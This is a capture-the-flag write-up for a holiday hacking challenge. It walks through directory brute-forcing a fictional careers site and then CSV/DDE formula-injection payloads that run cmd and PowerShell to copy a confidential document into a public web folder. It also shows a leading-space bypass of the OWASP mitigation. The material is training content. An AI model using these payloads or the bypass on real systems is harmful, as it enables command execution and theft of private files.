 # 7. HR Incident Response
> Santa uses an Elf Resources website to look for talented information security professionals. Gain access to the website and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K." For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

1. Ran DirBuster to find the existence of `/public/`:

```bash
docker run --rm hypnza/dirbuster -u  https://careers.kringlecastle.com/
Jan 04, 2019 11:54:45 PM java.util.prefs.FileSystemPreferences$1 run
INFO: Created user preferences directory.
Starting OWASP DirBuster 0.12 in headless mode
Starting dir/file list based brute forcing
Dir found: / - 200
Jan 04, 2019 11:54:47 PM au.id.jericho.lib.html.LoggerProviderJava$JavaLogger info
INFO: StartTag at (r172,c2,p5860) missing required end tag
Jan 04, 2019 11:54:47 PM au.id.jericho.lib.html.LoggerProviderJava$JavaLogger info
INFO: StartTag at (r227,c3,p7829) missing required end tag
File found: /static/js/postrequest.js - 200
Dir found: /public/ - 200
Dir found: /css/ - 200
Dir found: /Public/ - 200
^C
Caught exit of DirBuster
Writing report
Report saved to /DirBuster-0.12/DirBuster-Report-careers.kringlecastle.com-443.txt
Enjoy the rest of your day
```

2. Went to https://careers.kringlecastle.com/public/ and read:

```
Publicly accessible file served from:
C:\careerportal\resources\public\ not found......

Try:
https://careers.kringlecastle.com/public/'file name you are looking for'
```

3. Wrote a CSV file with a payload to copy `C:\candidate_evaluation.docx` to `C:\careerportal\resources\public\a.a` in such a way that I can download it:

```
Name, LastName
"Mister", "=DDE(""cmd""; "" /C copy C:\candidate_evaluation.docx C:\careerportal\resources\public\a.a""; ""asdfasdfasdf"")!A0"

Name, LastName
"Mister", "=cmd|' /C copy C:\candidate_evaluation.docx C:\careerportal\resources\public\a.a) '!A0"

Name, LastName
"Mister", "=DDE(""copy""; ""C:\candidate_evaluation.docx C:\careerportal\resources\public\a.a""; ""111"")!A0"

```


4. None of those worked. So tried to bypass the OWASP suggestion:

> This attack is difficult to mitigate, and explicitly disallowed from quite a few bug bounty programs. To remediate it, ensure that no cells begin with any of the following characters:
Equals to ("=")
Plus ("+")
Minus ("-")
At ("@")

5. The following payload worked like a charm:

```csv
"Aaa"," =cmd|' /C powershell.exe ""copy-item C:\candidate_evaluation.docx c:\careerportal\resources\public\eee.docx""'!A2"

```

6. None of the DDE payloads above worked, even putting a space before the equals. Did not try with `@`, `-` or `+`.

7. Answer to the challenge `Which terrorist organization is secretly supported by the job applicant whose name begins with "K."` is `Fancy Beaver`
